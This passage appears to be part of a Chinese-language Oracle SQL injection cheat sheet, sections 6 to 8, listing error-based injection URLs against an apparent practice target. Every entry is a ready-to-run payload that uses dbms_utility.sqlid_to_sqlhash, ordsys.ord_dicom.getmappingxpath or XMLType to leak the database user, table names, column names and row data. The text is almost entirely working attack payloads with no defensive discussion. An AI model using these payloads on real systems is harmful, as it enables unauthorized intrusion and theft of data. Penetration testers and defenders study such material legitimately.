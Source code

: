 ###### 6.**dbms_utility.sqlid_to_sqlhash()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 7.**ordsys.ord_dicom.getmappingxpath()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 8.**XMLType()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7cchr(62))) from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7cchr(62))) from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select username from test.users where rownum=1)%7c%7cchr(62))) from dual) is not null --+
```
